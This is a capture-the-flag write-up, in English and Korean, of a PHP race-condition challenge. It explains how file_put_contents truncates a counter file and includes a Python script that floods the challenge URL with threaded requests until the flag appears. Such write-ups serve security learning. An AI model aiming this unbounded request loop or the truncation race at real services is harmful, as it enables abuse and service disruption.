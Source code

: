# Count (Web)

-----
This challenge is simple race condition in php
php has functions called `file_get_contents` and `file_put_contents`

`file_put_contents` function is accepts four args. (can $flags, $context args be omitted)
```c
int file_put_contents ( string $filename , mixed $data [, int $flags = 0 [, resource $context ]] )
```
This function is identical to calling fopen(), fwrite() and fclose() successively to write data to a file.  
  
영어로 쓰다가 힘들어서 그냥 한국어로 쓴다.  
  
`file_put_contents`에서 `flags` 인자에 따로 값을 주지 않으면 기본 값은 `0`이다.  
[php 소스](https://github.com/php/php-src "php 소스")에서 `ext/standard/file.c`를 열어서 들여다보면 `flags`가 0일때 모드는 `wb` 모드이다.  
즉, 기존에 abc라는 파일이 있고 `file_put_contents`로 `file_put_contents('abc', 'asdf');` 이렇게 쓴다면  
기존 abc에 있던 내용은 다 지워지고 `asdf`라는 내용이 들어간다.  
  
이 문제는 이러한 특징을 이용한 레이스 컨디션 문제다.  

```php
$cnt = (int)file_get_contents('cnt-file');

if($cnt == 30) {
    $cnt = 10;
}

$cnt = $cnt + 1;
file_put_contents('cnt-file', $cnt);

if($cnt == 1) {
    die($flag);
}
```
위 소스는 문제 소스중 일부분이다.  
`$cnt`의 초기값은 5다. (cnt-file에 있는 값이 5)  

새로고침할 때마다 `$cnt`가 1씩 증가하고 증가한 값을 cnt-file에 쓴다.  
그리고 증가하다가 30이 되면 10으로 초기화한다.  

위에서 설명한 `file_put_contents`의 특징을 모르는 상태라면 말도 안되는 코드라고 생각할 수 있다.  
하지만 이제 `file_put_contents`의 특징을 알기 때문에 `file_put_contents`로 값을 쓸 때 잠깐동안 지워지는 그 순간을 노리면 된다.  

exploit.py  

```python
import requests
import threading
# made by munsiwoo

def request(sandbox) :
	global response
	uri = 'http://game.withphp.com/ouya/sandbox/' + sandbox
	response = requests.get(uri).text

if __name__ == '__main__' :
	sandbox = '80e30ab2318c6a531cdde54c009a54ca/'
	response = ''

	while True :
		threading.Thread(target=request, args=(sandbox,)).start()
		if(response.find('Sunrin{') != -1) : # flag format is Sunrin{...}
			print(response)
			break

	print('End')

```
